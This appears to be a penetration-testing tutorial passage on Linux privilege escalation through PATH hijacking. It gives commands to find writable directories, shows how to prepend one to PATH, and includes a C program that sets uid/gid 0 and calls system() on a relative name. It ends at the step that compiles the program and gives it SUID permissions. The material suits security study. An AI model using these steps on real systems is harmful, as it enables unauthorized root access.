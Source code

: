 ## <mark style="color:orange;">Abusing the PATH environment variable (Path Hijacking)</mark>

* Search for any writable folder and compare it to _PATH_

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"><strong>find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u
</strong>#Example results
<strong>etc/udev  home/user  run/dbus  snap/core  sys/fs  tmp  usr/lib  var/crash
</strong>
echo $PATH
#Example results
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
</code></pre>

{% hint style="info" %}
* We note there is a home folder where we can write
* In case we haven't found anything, we have to write to _/tmp_
{% endhint %}

***

* Add the folder to _PATH_ and go to this location

{% code overflow="wrap" lineNumbers="true" %}
```bash
export PATH=/home/user:$PATH
echo $PATH   #To check if it was added
cd /home/user
```
{% endcode %}

***

* Write a simple script in _C_ to search for an executable

{% code title="path.c " overflow="wrap" lineNumbers="true" %}
```c
#include <unistd.h>

void main() {
    setgid(0);
    setuid(0);
    system("root");
}
```
{% endcode %}

{% hint style="info" %}
The system will search for an executable named _root,_ which is an arbitrary name
{% endhint %}

***

* Compile the script and give it SUID permissions
